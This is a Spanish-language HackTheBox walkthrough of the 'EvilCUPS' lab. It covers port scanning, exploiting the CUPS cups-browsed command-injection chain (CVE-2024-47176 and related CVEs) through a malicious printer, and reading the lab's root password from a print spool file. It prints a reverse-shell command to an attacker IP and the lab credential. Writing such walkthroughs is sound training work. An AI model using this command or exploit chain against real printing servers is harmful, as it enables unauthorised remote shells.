







# Acerca de EvilCUPS


EvilCUPS es una máquina Linux de dificultad media que presenta una vulnerabilidad de inyección de comandos CUPS [CVE-2024-47176](https://nvd.nist.gov/vuln/detail/CVE-2024-47176). Esta CVE permite a usuarios remotos no autenticados la capacidad de instalar una impresora maliciosa en la máquina vulnerable a través de `UDP/631`. Esta impresora está configurada para utilizar [Foomatic-RIP](https://linux.die.net/man/1/foomatic-rip) que se utiliza para procesar documentos y donde se produce la inyección de comandos. Para desencadenar la ejecución del comando, es necesario imprimir un documento. El servidor web CUPS está configurado para permitir el acceso de usuarios anónimos a `TCP/631`. Navegando aquí es posible imprimir una página de prueba en la impresora maliciosa y obtener acceso como usuario «lp». Este usuario tiene la capacidad de recuperar trabajos de impresión anteriores, uno de los cuales contiene la contraseña de root de la caja. 

    OS: Linux
    Difficulty: Medium
    Platform: HackTheBox

## Enumeración

Primero que todo debemos realizar la enumeracion de puertos y servicios con la herramienta nmap para ver si hay algún puerto abierto que nos de un posible vector de ataque. 

```bash
nmap -p- --open -sS -n -Pn --min-rate 5000 -sCV -vvv 10.10.11.40 -oN target
```



tambien podemos realizar un escaneo de puertos por el protocolo UDP utilizando nmap con la opción `-sU` para obtener una lista de puertos abiertos y los servicios que están en uso. 

```bash
nmap -sU -p 631 10.10.11.40
```


Podemos echar un vistazo a la pagina web que se aloja en ``http://10.10.11.40:631/`` y hacernos una idea de la arquitectura de la máquina y a que nos estamos enfrentando.



Si miramos bien, la version que utiliza CUPS es la 2.4.2 que precisamente es una version vunerable, tambien se encuentran ventanas dentro de la pagina web en las cuales vemos que hay apartados como Administracion a la cual no tenemos acceso (nos devuelve un codigo de estado **403**), trabajos e impresoras. 

## Explotacion

`cups-browsed` se enlaza a `INADDR_ANY:631`, haciendo que confíe en cualquier paquete de cualquier origen, y puede provocar la petición IPP `Get-Printer-Attributes` a una URL controlada por el atacante. Cuando se combina con otras vulnerabilidades, como **CVE-2024-47076**, **CVE-2024-47175** y **CVE-2024-47177**, un atacante puede ejecutar comandos arbitrarios de forma remota en la máquina de destino sin autenticación cuando se imprime en una impresora maliciosa.

Para abusar de esta vulnerabilidad, podemos hacer uso del siguiente script en python que realiza la inyección de comandos en la impresora maliciosa. [evilcups.py](https://github.com/IppSec/evil-cups/blob/main/evilcups.py)

> El script tiene como finalidad explotar una impresora CUPS (Common UNIX Printing System) mediante la simulación de una impresora maliciosa que inyecta un comando específico proporcionado por el usuario.

IPPServer y MaliciousPrinter:

- Se implementa una clase MaliciousPrinter que hereda de StatelessPrinter, una clase de comportamiento que representa una impresora que no almacena el estado. Esta clase está diseñada para modificar ciertos atributos de la impresora y ejecutar el comando proporcionado por el usuario. Los atributos de la impresora son modificados para incluir un comando malicioso en el campo printer-more-info. El comando se ejecuta a través de foomatic-rip, un filtro de procesamiento de trabajos de impresión.

Funcionalidad principal:

- El script crea un servidor IPP utilizando la biblioteca ippserver y escucha en el puerto 443 de la máquina local. Este servidor se hace pasar por una impresora maliciosa. Luego, envía un paquete UDP al puerto 631 (el puerto donde típicamente escucha el servicio CUPS) del host objetivo, haciendo que este reconozca la impresora falsa y potencialmente ejecute el comando malicioso. El comando malicioso se envía al objetivo mediante un campo dentro de los atributos de la impresora cuando esta es listada.

Paquete malicioso:

- En la función send_browsed_packet, se envía un paquete con información sobre la impresora maliciosa, indicando al objetivo la URL de la impresora falsa y su "estado hackeado". Esta URL incluye el comando que será ejecutado si el servidor objetivo procesa esta información.

Parámetros de entrada:

- El script requiere tres parámetros: la IP del servidor local, la IP del host objetivo, y el comando malicioso que deseas ejecutar en el sistema objetivo.

Comportamiento:

- Al ejecutarse, este script inyecta el comando especificado mediante la simulación de un trabajo de impresión, intentando que el servidor CUPS ejecute dicho comando en el contexto del sistema comprometido.

Para ejecutar el script, primero se instala el paquete ippserver con `pip install ippserver` y luego se ejecuta el script con el siguiente comando:

```bash
python evil-cups.py 10.10.14.20 10.10.11.40 'bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"'
```
En este punto, la impresora aparece en el servidor web TCP de CUPs:



Para recibir la shell lo que debemos hacer es cambiar la opcion que dice **mantenimiento** por **Imprimir pagina de prueba** estando a la escucha con netcat por el puerto 443.



Y si hicimos los pasos correctos, obtendremos una shell como usuario lp:



Yendo al directorio `home/htb` podemos encontrar el archivo `user.txt` que contiene la flag. 

Segun la documentacion de CUPS, El programador almacena los archivos de trabajo en un directorio spool, normalmente /var/spool/cups. En el directorio spool se encontrarán dos tipos de archivos: los archivos de control que empiezan por la letra «c» («c00001», «c99999», «c100000», etc.) y los archivos de datos que empiezan por la letra «d» («d00001-001», «d99999-001», «d100000-001», etc.) Los archivos de control son mensajes IPP basados en los mensajes IPP originales Print-Job o Create-Job, mientras que los archivos de datos son los archivos de impresión originales que se enviaron a imprimir.

En este caso podemos leer el archivo `d00001-001` que contiene la contraseña de root de la maquina (Br3@k-G!@ss-r00t-evilcups).



Finalmente podemos utilizar esta password cambiar al usuario root y leer la ultima flag que encontramos en el directorio `/root/root.txt`.